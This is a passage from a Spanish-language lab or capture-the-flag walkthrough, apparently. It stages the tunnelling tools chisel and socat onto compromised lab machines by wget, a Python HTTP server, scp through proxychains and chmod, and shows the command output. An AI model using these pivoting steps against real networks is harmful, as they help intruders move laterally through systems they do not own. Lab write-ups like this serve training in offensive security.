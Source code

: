 Ahora le damos permisos de ejecucion:
```bash
chmod +x chisel_1.9.1_linux_amd64
```

**Nota** Ahora es cuando usaremos la herremienta [Socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) de este repositorio oficial
```bash
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
```

Ahora montamos un servidor python3 desde nuestra maquina atacante para que este disponible **socat**
```bash
python3 -m http.server 80
```

Realizamos la peticion desde la maquina victima 1 para descargar socat:
```bash
proxychains scp socat mario@20.20.20.2:/home/mario/socat
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  20.20.20.3:22  ...  OK
manchi@20.20.20.2's password: 
socat  
```

Ahora ya tenemos **socat** en la maquina victima 1
```bash
chmod +x socat 
-rwxr-xr-x 1 mario mario  375176 Jul  2 01:05 socat
```

Ahora que ya esta en modo escucha desde la maquina dos donde con el usuario **seller** escalamos a **root** usaremos **chisel** para crear un tunel como en la maquina anterior
Ya teniendo **chisel** en la maquina victima 2
```bash
chisel_1.9.1_linux_amd64

chmod +x chisel_1.9.1_linux_amd64 
```

```bash
wget http://20.20.20.2:5000/chisel_1.9.1_linux_amd64
--2025-07-02 01:40:18--  http://20.20.20.2:5000/chisel_1.9.1_linux_amd64
Connecting to 20.20.20.2:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel_1.9.1_linux_amd64'

chisel_1.9.1_linux_amd64                                            100%[========================>]   8.25M  --.-KB/s    in 0.03s   

2025-07-02 01:40:18 (282 MB/s) - 'chisel_1.9.1_linux_amd64' saved [8654848/8654848]
```
